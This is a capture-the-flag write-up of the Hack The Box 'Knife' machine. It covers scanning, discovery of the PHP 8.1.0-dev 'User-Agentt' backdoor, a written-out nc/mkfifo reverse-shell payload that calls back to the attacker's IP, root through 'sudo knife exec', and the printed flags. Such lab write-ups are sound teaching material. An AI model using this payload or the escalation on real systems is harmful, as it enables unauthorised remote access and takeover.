

+++
title = "Knife"
date = "2024-01-22"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-05-22

**Created by**: [MrKN16H7](https://app.hackthebox.com/users/98767)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.242`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Knife using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.242" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.242" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.242" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Knife is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.242" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http
|_http-title:  Emergent Medical Idea
<SNIP>
```

The `http-title` script detected that the website's homepage title is 'Emergent
Medical Idea'.

## Services enumeration

### Apache

#### Fingerprinting

Let's use `whatweb` to fingerprint Apache's homepage.

```sh
❯ whatweb -a3 "http://10.10.10.242/" -v
```

```
WhatWeb report for http://10.10.10.242/
Status    : 200 OK
Title     : Emergent Medical Idea
IP        : 10.10.10.242
Country   : RESERVED, ZZ

Summary   : Apache[2.4.41], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], PHP[8.1.0-dev], Script, X-Powered-By[PHP/8.1.0-dev]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and 
        maintain an open-source HTTP server for modern operating 
        systems including UNIX and Windows NT. The goal of this 
        project is to provide a secure, efficient and extensible 
        server that provides HTTP services in sync with the current 
        HTTP standards. 

        Version      : 2.4.41 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration 


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to 
        identify the operating system from the server header. 

        OS           : Ubuntu Linux
        String       : Apache/2.4.41 (Ubuntu) (from server string)

[ PHP ]
        PHP is a widely-used general-purpose scripting language 
        that is especially suited for Web development and can be 
        embedded into HTML. This plugin identifies PHP errors, 
        modules and versions and extracts the local file path and 
        username if present. 

        Version      : 8.1.0-dev
        Google Dorks: (2)
        Website     : http://www.php.net/

[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 


[ X-Powered-By ]
        X-Powered-By HTTP header 

        String       : PHP/8.1.0-dev (from x-powered-by string)

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Sun, 04 Feb 2024 11:14:44 GMT
        Server: Apache/2.4.41 (Ubuntu)
        X-Powered-By: PHP/8.1.0-dev
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 2406
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

This reveals that this website is using PHP version `8.1.0-dev`.

#### Exploration

Let's browse to `http://10.10.10.242/`.


It's a website for a medical company. There's hardly more information.

### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "http://10.10.10.242/"
```

```
http://10.10.10.242/
```

We only find the homepage.

### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "http://10.10.10.242/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e ".php"
```

```
<SNIP>
[Status: 200, Size: 5815, Words: 646, Lines: 221, Duration: 63ms]
| URL | http://10.10.10.242/index.php
    * FUZZ: index.php

[Status: 200, Size: 5815, Words: 646, Lines: 221, Duration: 65ms]
| URL | http://10.10.10.242/
    * FUZZ: 

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 79ms]
| URL | http://10.10.10.242/server-status
    * FUZZ: server-status
<SNIP>
```

It doesn't find any noteworthy web page or directory.

#### Vhost fuzzing

Let's try to fuzz for vhosts now.

According to HTB's naming habits, the domain name for this website would be
`knife.htb`. Therefore, I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.10.242 knife.htb" >> /etc/hosts
```

First, let's get the length of an invalid vhost.

```sh
❯ curl -k -s "http://knife.htb/" -H "Host: nonExitent.knife.htb" | wc -c
```

```
5815
```

Let's filter the vhosts with length `5815` then:

```sh
❯ ffuf -v -c -u "http://knife.htb/" -H "Host: FUZZ.knife.htb" -w "/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt" -mc "100-403,405-599" -fs "5815"
```

```
<SNIP>
```

Nothing!

#### Known vulnerabilities

We only have two pieces of information at this point: the server is Apache
version `2.4.41`, and the technology in use is PHP version `8.1.0-dev`.

If we search [ExploitDB](https://www.exploit-db.com/) for `Apache 2.4.41`, we
find nothing. However, if we enter `PHP 8.1.0-dev`, we find
[PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933).

## Foothold (RCE)

The vulnerability affecting PHP version `8.1.0-dev` is simply a backdoor
accessible through the `User-agentt` HTTP header.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

According to the Python PoC we found, the `User-Agentt` value I should send to
execute this command is:

```sh
zerodium system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f');
```

I'll save it as the `COMMAND` shell variable.

### Exploitation

Let's send a request with this header.

```sh
❯ curl -s -o "/dev/null" -H "User-Agentt: $COMMAND" "http://10.10.10.242/"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.242] 55882
<SNIP>
james@knife:/$
```

It caught the reverse shell!

### Stabilizing the shell

Our home folder contains a `.ssh` directory with a private key. I'll add the
corresponding public key to `authorized_keys` and I'll connect over SSH to
Knife. This way, I'll have a much more stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `james`.

### Architecture

What is Knife's architecture?

```sh
james@knife:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Knife is using.

```sh
james@knife:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.2 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Knife.

```sh
james@knife:~$ uname -r
```

```
5.4.0-80-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
james@knife:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
james
opscode-pgsql
root
```

There's `james` (us), `opscode-pgsql` and `root`.

### Groups

Let's enumerate all groups.

```sh
james@knife:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
james
kmem
kvm
landscape
list
lp
lxd
mail
man
messagebus
netdev
news
nogroup
operator
opscode
opscode-pgsql
plugdev
proxy
render
root
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
james@knife:~$ ifconfig
```

```
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.242  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:c33e  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:c33e  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:c3:3e  txqueuelen 1000  (Ethernet)
        RX packets 67101  bytes 4071299 (4.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 67123  bytes 3865835 (3.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24559  bytes 2706885 (2.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24559  bytes 2706885 (2.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Knife's hostname?

```sh
james@knife:~$ hostname
```

```
knife
```

Yeah I know, very surprising.

### Flags

If we check our home folder, we find the user flag.

```sh
james@knife:~$ cat "/home/james/user.txt"
```

```
e58e06d1b79c9ce06e9b30edc87529c0
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
james@knife:~$ sudo -l
```

```
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

We do! We can execute the `/usr/bin/knife` binary as `root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `knife`, we find
[an entry](https://gtfobins.github.io/gtfobins/knife/). Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/knife/#sudo)!

### Exploitation

I'll just copy and paste the given command to abuse our `sudo` permissions:

```sh
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
```

```
#
```

Yay!

### Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH to Knife. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@cap:~# cat "/root/root.txt"
```

```
2133da3bba64d6c553b463b81e96acbd
```

# Afterwords



That's it for this box! 🎉

I rated both the user and root flags as 'Very easy' to obtain. The foothold was quite
easy to find and trivial to exploit. The privilege escalation only required
proper enumeration to identify and was very easy to take advantage of.

Thanks for reading!
